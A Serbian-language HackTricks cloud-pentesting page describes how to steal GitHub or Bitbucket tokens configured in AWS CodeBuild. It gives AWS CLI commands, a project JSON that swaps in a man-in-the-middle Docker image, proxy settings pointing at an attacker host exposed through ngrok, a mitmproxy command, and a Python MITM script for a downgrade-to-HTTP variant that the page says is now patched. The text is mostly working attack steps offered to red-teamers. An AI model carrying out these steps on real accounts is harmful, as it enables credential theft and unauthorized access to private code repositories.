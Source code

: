 # AWS Codebuild - Curenje tokena

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Vraćanje Github/Bitbucket Konfigurisanih Tokena

Prvo, proverite da li postoje bilo kakvi konfigurisani izvorni kredencijali koje biste mogli da otkrijete:
```bash
aws codebuild list-source-credentials
```
### Preko Docker slike

Ako otkrijete da je autentikacija na primer postavljena za Github u nalogu, možete **izvući** taj **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi određenu docker sliku** za pokretanje izgradnje projekta.

Za tu svrhu možete **kreirati novi Codebuild projekat** ili promeniti **okruženje** postojećeg da biste postavili **Docker sliku**.

Docker sliku koju možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je veoma osnovna Docker slika koja će postaviti **env promenljive `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja sa hosta naznačenog u **`https_proxy`** i **`http_proxy`** i da verujete SSL CERT-u naznačenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoju sopstvenu Docker MitM sliku**
* Pratite uputstva iz repozitorijuma da biste postavili IP adresu vašeg proksi servera i postavili vaš SSL sertifikat i **izgradili docker sliku**.
* **NE POSTAVLJAJTE `http_proxy`** da ne biste presreli zahteve ka metapodacima.
* Možete koristiti **`ngrok`** poput `ngrok tcp 4444` da biste postavili proksi ka vašem hostu
* Kada izgradite Docker sliku, **otpremite je na javni repozitorijum** (Dockerhub, ECR...)
2. **Postavite okruženje**
* Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
* Postavite projekat da koristi **prethodno generisanu Docker sliku**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proksi na vašem hostu**

* Kao što je naznačeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Korišćena je **mitmproxy verzija 9.0.1**, prijavljeno je da ovo možda neće raditi sa verzijom 10.
{% endhint %}

4. **Pokrenite izgradnju i zabeležite pristupne podatke**

*   Možete videti token u zaglavlju **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo takođe može biti urađeno sa aws cli-om nečim sličnim kao

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Preko HTTP protokola~~

{% hint style="success" %}
**Ova ranjivost je ispravljena od strane AWS-a negde tokom nedelje 20. februara 2023. godine (mislim da je bilo u petak). Dakle, napadač više ne može zloupotrebljavati ovu ranjivost :)**
{% endhint %}

Napadač sa **povišenim dozvolama u okviru CodeBuild-a mogao bi otkriti Github/Bitbucket token** koji je konfigurisan ili, ako su dozvole konfigurisane putem OAuth-a, **privremeni OAuth token korišćen za pristup kodu**.

* Napadač bi mogao dodati promenljive okoline **http\_proxy** i **https\_proxy** u CodeBuild projekat koji pokazuju ka njegovom računaru (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Zatim, promeniti URL repozitorijuma na Github-u da koristi HTTP umesto HTTPS, na primer: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Zatim pokrenuti osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji pokazuju promenljive proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Konačno, kliknite na **Izgradite projekat**, **poverljivi podaci** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sada će napadač moći da koristi token sa svoje mašine, da izlistava sve privilegije koje ima i (zlo)upotrebljava lakše nego korišćenjem CodeBuild servisa direktno.
{% endhint %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
